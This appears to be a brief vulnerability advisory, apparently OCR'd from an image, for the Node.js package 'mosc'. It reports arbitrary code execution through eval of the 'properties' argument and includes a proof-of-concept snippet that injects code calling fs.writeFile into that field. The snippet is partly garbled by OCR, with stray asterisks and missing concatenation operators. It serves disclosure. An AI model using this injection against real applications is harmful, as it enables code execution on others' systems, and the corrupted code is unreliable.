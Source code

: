 # Overview

mosc is an a simple inline object model builder for NodeJS (A small port exists for client-side javascript).

This package is vulnerable to Arbitrary Code Execution. User input provided to `properties` argument is executed by the eval function, allowing code execution.

# Proof of Concept

```
var Mosc = require("mosc")
var mosc = new Mosc({})
var key = ""
var attack*code = "fs=require('fs');fs.writeFile('FileName');"
var properties = "{a:\_1*; " attack_code " //\*}"

var mosc = mosc.parse_properties(key, properties, {}, {})
```
